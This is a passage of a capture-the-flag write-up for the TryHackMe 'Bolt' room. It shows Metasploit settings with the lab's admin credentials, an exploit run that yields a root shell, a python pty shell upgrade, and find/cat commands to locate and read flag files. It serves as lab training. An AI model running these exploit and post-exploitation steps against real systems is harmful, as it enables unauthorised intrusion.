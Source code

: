 <pre class="language-bash"><code class="lang-bash"><strong>set RHOST bolt.thm
</strong><strong>set LHOST tun0
</strong>set USERNAME bolt
set PASSWORD boltadmin123
exploit
</code></pre>

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 11-20-50 (1).png" alt=""><figcaption><p>root shell</p></figcaption></figure>

#### 3.9 - Look for flag.txt inside the machine.

flag is usually in the path: /home

```bash
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
```

or we can spawn a bash shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
find / -type f -name 'flag.txt' 2>/dev/null
cat /root/flag.txt
```

<details><summary>🚩 Flag 1 (flag.txt)</summary></details>
